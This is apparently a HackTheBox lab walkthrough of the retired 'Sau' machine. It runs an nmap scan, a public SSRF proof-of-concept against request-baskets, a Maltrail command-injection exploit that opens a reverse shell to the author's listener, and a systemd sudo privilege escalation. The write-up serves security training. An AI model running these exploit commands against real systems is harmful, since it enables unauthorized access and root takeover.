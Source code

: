 ```yaml
---
layout: post
title: Sau
date: 2025-07-18 02:34:00 +0800
categories: [HackTheBox, Easy]
tags: [Vulnerability Assessment, Enterprise Network, Default Credentials, Weak Permissions]
author: klein
image:
  path: /images/images-sau/image_04.png
  
---
```


This notes-style walkthrough will be conducted using HackTheBox Guided Mode for this retired machine.

###### Which is the highest open TCP port on the target machine?

Start off with an Nmap scan to find out this information.

```bash
nmap -sC -sV -vv -oN sau 10.129.229.26
```

![b](/images/images-sau/image_01.png)

###### What is the name of the open-source software that the application on 55555 is "powered by"?

By going to the web page, we can find out the software that powers this application.

![b](/images/images-sau/image_02.png)

###### What is the version of request-baskets running on Sau?

As can be seen from the previous image, the version number is 1.2.1

###### What is the 2023 CVE ID for a Server-Side Request Forgery (SSRF) in this version of request-baskets?

Just do a quick Google search.

```
request-baskets 1.2.1 exploit
```

![b](/images/images-sau/image_03.png)

###### What is the name of the software that the application running on port 80 is "powered by"?

I used this POC exploit to progress further.
https://github.com/entr0pie/CVE-2023-27163

```bash
./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80 
```

![b](/images/images-sau/image_05.png)

By visiting that link, we get access to the web page on port 80.

![b](/images/images-sau/image_06.png)

###### There is an unauthenticated command injection vulnerability in MailTrail v0.53. What is the relative path on the webserver targeted by this exploit?

With a quick Google search, I found this exploit:

https://github.com/spookier/Maltrail-v0.53-Exploit

By taking a look at the exploit code, it looks like it is targeting the /login path.

![b](/images/images-sau/image_07.png)

###### What system user is the Mailtrack application running as on Sau?

By doing a quick Google search, I found a POC exploit for Mailtrail.

https://github.com/spookier/Maltrail-v0.53-Exploit

By simply running the exploit, I got a reverse shell on the box.

```bash
python3 exploit.py 10.10.14.246 4444 http://10.129.189.107:55555/rcwlye

```

!\[b\](/images/images-sau/image_08.png)

###### What is the full path to the binary (without arguments) that the puma user can run as root on Sau?

Let's see what puma can run as root.

```bash
sudo -l
```

!\[b\](/images/images-sau/image_09.png)

###### What is the full version string for the instance of systemd installed on Sau?

```bash
/usr/bin/systemctl --version
```

!\[b\](/images/images-sau/image_10.png)

###### What is the 2023 CVE ID for a local privilege escalation vulnerability in this version of systemd?

A quick Google search revealed the ID right away.

!\[b\](/images/images-sau/image_11.png)

###### Submit the flag located in the root user's home directory.

To get the root user's flag, we need to escalate privileges with the previously found CVE. I found a short and straight to the point write up on this. 

https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7

!\[b\](/images/images-sau/image_12.png)